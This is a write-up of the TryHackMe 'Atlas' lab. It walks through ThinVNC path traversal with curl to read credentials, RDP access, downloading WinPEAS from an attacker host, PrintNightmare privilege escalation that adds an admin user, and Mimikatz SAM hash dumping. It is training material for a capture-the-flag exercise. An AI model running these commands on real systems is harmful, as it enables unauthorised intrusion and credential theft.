

# Atlas

|---|---|
| **Platform** | TryHackMe |
| **Difficulty** | Easy |
| **URL** | https://tryhackme.com/room/atlas |
| **Focus** | Path traversal on ThinVNC → RDP access → PrintNightmare privilege escalation → credential extraction |

---

## Reconnaissance with nmap `[RECON]`

Network scanning to identify services and OS details.

```bash
nmap -sS -sC -sV -O -A -Pn -p- <TARGET_IP>

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
8080/tcp open  http-proxy
```

Two services identified: RDP on port 3389 (Windows Server 2019, build 10.0.17763, hostname GAIA) and HTTP on port 8080 running ThinVNC (a web-based VNC server with Digest authentication). The target machine is standalone (NetBIOS_Domain_Name = NetBIOS_Computer_Name), not domain-joined.

---

## ThinVNC Service Identification `[ENUMERATION]`

Identify the VNC service type and authentication mechanism.

```bash
curl -v "http://<TARGET_IP>:8080/"

WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="...", opaque="..."
```

ThinVNC 1.0b1 is detected — a web-based VNC server. The service uses Digest authentication (realm=ThinVNC) and is vulnerable to path traversal (CVE-2019-17662).

---

## Exploiting CVE-2019-17662 (Path Traversal) `[EXPLOITATION]`

Path traversal bypass to read the ThinVNC configuration file containing cleartext credentials.

**Issue with standard path traversal attempts:**

```bash
curl -v "http://<TARGET_IP>:8080/xyz/../../ThinVnc.ini"

> GET /ThinVnc.ini HTTP/1.1
< HTTP/1.1 404 Not Found
```

Most HTTP clients (curl, Python `requests`) normalize paths before sending, collapsing `../` sequences as the filesystem would. Use `--path-as-is` to bypass this normalization:

```bash
curl -v --path-as-is "http://<TARGET_IP>:8080/xyz/../../ThinVnc.ini"

HTTP/1.1 200 OK

[Authentication]
User=admin_user
Password=<PASSWORD>
Type=Digest
```

Credentials obtained: `admin_user` / `<PASSWORD>`

> **Note:** Public PoC scripts (Exploit-DB 47519.py) fail because `requests.get()` also normalizes paths. The workaround: use `Request()` + `.prepare()` then manually override the `.url` attribute to send the raw path. Burp Repeater does not normalize by default and works directly.

---

## Remote Access via RDP `[EXPLOITATION]`

Establish an interactive RDP session with obtained credentials.

```bash
xfreerdp /v:<TARGET_IP> /u:admin_user /p:'<PASSWORD>' /cert:ignore /f /dynamic-resolution +clipboard /drive:share,/tmp

# Within the RDP session, verify the shared drive:
dir \\tsclient\share
```

RDP session established with user `admin_user`. The local `/tmp` directory is accessible as `\\tsclient\share` in Windows.

| Flag | Description |
|------|---|
| `/v:<TARGET_IP>` | Target hostname or IP |
| `/u:admin_user` | Authentication username |
| `/p:'<PASSWORD>'` | Password (quoted due to special characters) |
| `/cert:ignore` | Ignore SSL/TLS certificate warnings (acceptable in lab environments) |
| `/f` | Fullscreen mode on startup; toggle with `Ctrl + Alt + Enter` |
| `/dynamic-resolution` | Auto-adjust resolution when window is resized |
| `+clipboard` | Share clipboard between attacker and target |
| `/drive:share,/tmp` | Mount local `/tmp` as a network drive visible as `\\tsclient\share` |

---

## Post-Exploitation Enumeration with WinPEAS `[ENUMERATION]`

Enumerate system vulnerabilities and missing patches to identify privilege escalation vectors.

Transfer WinPEAS to the target via PowerShell (within the RDP session):

```powershell
mkdir C:\Windows\Temp\tools
iwr -Uri "http://<ATTACKER_IP>/winpeas/winPEASx64.exe" -OutFile "C:\Windows\Temp\tools\winPEASx64.exe"

cd C:\Windows\Temp\tools
.\winPEASx64.exe | Out-File -FilePath C:\Windows\Temp\tools\winpeas_output.txt -Encoding UTF8
```

Key findings:

- **PrintNightmare PointAndPrint Policies** detected without hardening (MITRE ATT&CK T1068)
- **CVE-2021-1675 / CVE-2021-34527** listed in unpatched CVEs
- **KB5003646** (patch for CVE-2021-1675) is absent
- **KB5004947** (patch for CVE-2021-34527) is absent

WinPEAS detects vulnerabilities indirectly via missing KB patches, not through explicit misconfiguration detection.

---

## Privilege Escalation with PrintNightmare (CVE-2021-1675) `[PRIVESC]`

Exploit the Print Spooler RPC vulnerability to inject malicious code with SYSTEM privileges.

Clone the exploit:

```bash
cd /tmp
git clone https://github.com/calebstewart/CVE-2021-1675.git
```

Within the PowerShell RDP session, import and execute the exploit (dot-sourcing from the shared drive):

```powershell
. \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1

Invoke-Nightmare

[+] using default new user: privesc_user
[+] using default new password: <PASSWORD>
[+] created payload at C:\Users\admin_user\AppData\Local\Temp\5\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user as local administrator
[+] deleting payload from C:\Users\admin_user\AppData\Local\Temp\5\nightmare.dll
```

PrintNightmare exploits `RpcAddPrinterDriverEx` in the Print Spooler (NT AUTHORITY\SYSTEM) to inject a malicious DLL as a printer driver. The Spooler loads and executes this DLL with SYSTEM privileges, creating a new user `privesc_user` with administrator group membership — all without requiring `admin_user` to possess administrative rights.

Elevate to an administrative console with the new user:

```powershell
Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential privesc_user

# Prompted for password: <PASSWORD>
```

Verify in the new elevated cmd session:

```cmd
whoami /groups

BUILTIN\Administrators                                        Alias            S-1-5-32-544
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Privilege escalation confirmed: new session runs with High integrity and BUILTIN\Administrators group membership.

---

## Credential Extraction with Mimikatz `[POST-EXPLOITATION]`

Extract all local account hashes and credentials from the SAM database.

Copy Mimikatz to `/tmp` on the attacker machine:

```bash
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe /tmp/
```

From the elevated admin console (`privesc_user`, High integrity):

```cmd
\\tsclient\share\mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM
 -> Impersonated !

mimikatz # lsadump::sam
Domain : GAIA
SysKey : <HASH>
Local SID : S-1-5-21-1966530601-3185510712-10604624
SAMKey : <HASH>
```

All NTLM hashes extracted:

| RID | Account | Hash |
|-----|---------|------|
| 500 | Administrator | `<HASH>` |
| 1008 | admin_user | `<HASH>` |
| 1009 | privesc_user | `<HASH>` |
| 504 | WDAGUtilityAccount | `<HASH>` |

The Administrator hash (RID 500) enables pass-the-hash attacks on NTLM-enabled services without knowing the cleartext password.

---

## Attack Chain



---

## Key Concepts

**Client-side path normalization:** HTTP clients curl and Python `requests` normalize path sequences before transmission, resolving `../` as a filesystem would. A server vulnerable to path traversal can appear secure if tested with a normalizing client. Tools like `curl --path-as-is` and Burp Repeater bypass this, allowing raw traversal sequences to reach the server unchanged.

**Digest Authentication vs. Application Authorization Logic:** While Digest authentication protects credentials in transit (unlike Basic auth, which transmits Base64-encoded credentials), the cryptographic strength of the auth mechanism is independent of the application's authorization logic. A service with Digest auth can still be vulnerable to unauthenticated access if the application fails to enforce authorization checks before serving sensitive resources.

**Print Spooler as a Privilege Escalation Vector:** The Print Spooler runs as NT AUTHORITY\SYSTEM and manages printer driver installation via RPC. The Point-and-Print mechanism allows unprivileged users to request driver installation from network shares. PrintNightmare abuses `RpcAddPrinterDriverEx` to inject a malicious DLL that the Spooler loads with SYSTEM privileges, enabling arbitrary code execution from a low-privileged context.

**Token Groups and Session Scope:** Group membership changes (e.g., adding a user to Administrators) do not update tokens in already-open sessions. A session created before the privilege escalation will not reflect the new group membership; a new session authenticated with the privileged account is required.

---

## Lessons Learned

- Verify that your HTTP client does not normalize paths before dismissing a path traversal vulnerability. PoC failures may originate from the client, not the target's security posture.
- Post-exploitation enumeration (WinPEAS, PowerUp) confirms viable privilege escalation vectors via indirect indicators (missing patches, weak policies) before committing resources to exploit development.
- RPC-based services running as SYSTEM are high-value attack surfaces; investigate RPC interfaces and their access controls thoroughly during privilege escalation assessment.
- Credential extraction with tools like Mimikatz requires elevation to SYSTEM or Debug privilege; token impersonation via `token::elevate` is a powerful step in post-exploitation chains.

---

## References

- **[CVE-2019-17662]** ThinVNC Authentication Bypass (Path Traversal) — https://www.exploit-db.com/exploits/47519
- **[CVE-2021-1675]** PrintNightmare Elevation of Privilege — https://nvd.nist.gov/vuln/detail/CVE-2021-1675
- **[CVE-2021-34527]** PrintNightmare Remote Code Execution — https://nvd.nist.gov/vuln/detail/CVE-2021-34527
